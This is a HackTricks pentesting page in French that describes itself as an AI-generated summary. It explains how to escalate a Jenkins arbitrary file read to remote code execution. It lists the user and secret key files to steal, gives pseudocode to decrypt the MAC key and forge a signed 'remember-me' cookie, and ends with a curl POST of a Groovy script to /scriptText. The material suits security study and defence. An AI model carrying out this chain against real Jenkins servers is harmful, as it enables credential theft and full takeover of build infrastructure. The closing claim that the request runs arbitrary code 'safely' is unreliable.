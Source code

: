 # Jenkins Arbitrary File Read to RCE via "Remember Me"

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

Dans cet article de blog, il est possible de trouver un excellent moyen de transformer une vulnérabilité d'inclusion de fichier local dans Jenkins en RCE : [https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/](https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/)

Ceci est un résumé créé par IA de la partie de l'article où la création d'un cookie arbitraire est exploitée pour obtenir RCE en abusant d'une lecture de fichier local jusqu'à ce que j'ai le temps de créer un résumé moi-même :

### Prérequis de l'attaque

* **Exigence de fonctionnalité :** "Se souvenir de moi" doit être activé (paramètre par défaut).
* **Niveaux d'accès :** L'attaquant a besoin de permissions Globales/Lecture.
* **Accès secret :** Capacité à lire à la fois le contenu binaire et textuel de fichiers clés.

### Processus d'exploitation détaillé

#### Étape 1 : Collecte de données

**Récupération d'informations utilisateur**

* Accéder à la configuration utilisateur et aux secrets depuis `$JENKINS_HOME/users/*.xml` pour chaque utilisateur afin de rassembler :
* **Nom d'utilisateur**
* **Graine utilisateur**
* **Horodatage**
* **Hash de mot de passe**

**Extraction de clé secrète**

* Extraire les clés cryptographiques utilisées pour signer le cookie :
* **Clé secrète :** `$JENKINS_HOME/secret.key`
* **Clé maître :** `$JENKINS_HOME/secrets/master.key`
* **Fichier de clé MAC :** `$JENKINS_HOME/secrets/org.springframework.security.web.authentication.rememberme.TokenBasedRememberMeServices.mac`

#### Étape 2 : Forging de cookie

**Préparation du token**

*   **Calculer le temps d'expiration du token :**

{% code overflow="wrap" %}
```javascript
tokenExpiryTime = currentServerTimeInMillis() + 3600000  // Ajoute une heure au temps actuel
```
{% endcode %}
*   **Concaténer les données pour le token :**

{% code overflow="wrap" %}
```javascript
token = username + ":" + tokenExpiryTime + ":" + userSeed + ":" + secretKey
```
{% endcode %}

**Déchiffrement de la clé MAC**

*   **Déchiffrer le fichier de clé MAC :**

```javascript
key = toAes128Key(masterKey)  // Convertir la clé maître en format de clé AES128
decrypted = AES.decrypt(macFile, key)  // Déchiffrer le fichier .mac
if not decrypted.hasSuffix("::::MAGIC::::")
return ERROR;
macKey = decrypted.withoutSuffix("::::MAGIC::::")
```

**Calcul de la signature**

*   **Calculer HMAC SHA256 :**

```javascript
mac = HmacSHA256(token, macKey)  // Calculer HMAC en utilisant le token et la clé MAC
tokenSignature = bytesToHexString(mac)  // Convertir la MAC en chaîne hexadécimale
```

**Encodage du cookie**

*   **Générer le cookie final :**

{% code overflow="wrap" %}
```javascript
cookie = base64.encode(username + ":" + tokenExpiryTime + ":" + tokenSignature)  // Encoder en base64 les données du cookie
```
{% endcode %}

#### Étape 3 : Exécution de code

**Authentification de session**

* **Récupérer les tokens CSRF et de session :**
* Faire une requête à `/crumbIssuer/api/json` pour obtenir `Jenkins-Crumb`.
* Capturer `JSESSIONID` de la réponse, qui sera utilisé en conjonction avec le cookie "se souvenir de moi".

**Requête d'exécution de commande**

*   **Envoyer une requête POST avec un script Groovy :**

```bash
curl -X POST "$JENKINS_URL/scriptText" \
--cookie "remember-me=$REMEMBER_ME_COOKIE; JSESSIONID...=$JSESSIONID" \
--header "Jenkins-Crumb: $CRUMB" \
--header "Content-Type: application/x-www-form-urlencoded" \
--data-urlencode "script=$SCRIPT"
```

* Le script Groovy peut être utilisé pour exécuter des commandes au niveau système ou d'autres opérations dans l'environnement Jenkins.

L'exemple de commande curl fourni démontre comment faire une requête à Jenkins avec les en-têtes et cookies nécessaires pour exécuter du code arbitraire en toute sécurité.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
